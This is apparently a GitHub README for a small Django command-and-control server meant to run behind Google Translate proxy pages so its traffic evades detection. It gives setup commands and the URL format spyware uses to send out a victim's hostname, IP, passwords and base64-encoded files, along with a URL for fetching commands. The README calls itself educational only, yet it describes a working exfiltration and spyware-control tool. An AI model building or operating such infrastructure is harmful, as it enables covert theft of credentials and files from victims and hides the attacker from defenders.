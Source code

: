 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Usage
### Exfiltration
- Data are collected directly from the URL
- simply send data to the base URL: ``https://your-domain.translate.goog/<hostname>/<ip>/<data_type>/<?hash_file>/<data>/``
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``hash_file`` is a flag to know if the exfiltrated data is a file or a string. You must send the hash of the file you want to upload to recreate the file. It allows the admin dashboard to know if it has to decode the received data or not. **(OPTIONAL)**
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded automatically on the admin dashboard. If it's a base64 data, you must split it into multiple strings otherwise Google Translate will limit you.
You can expand the size of the data by editing ``collector\models.py`` and edit the ``max_length=<your value>`` for the ``data_content`` field.

### Sending command
- Fetch the following link from your client/spyware: ``https://your-domain.translate.goog/c/<hostname>/<ip>/``

# FOR EDUCATIONAL PURPOSE ONLY
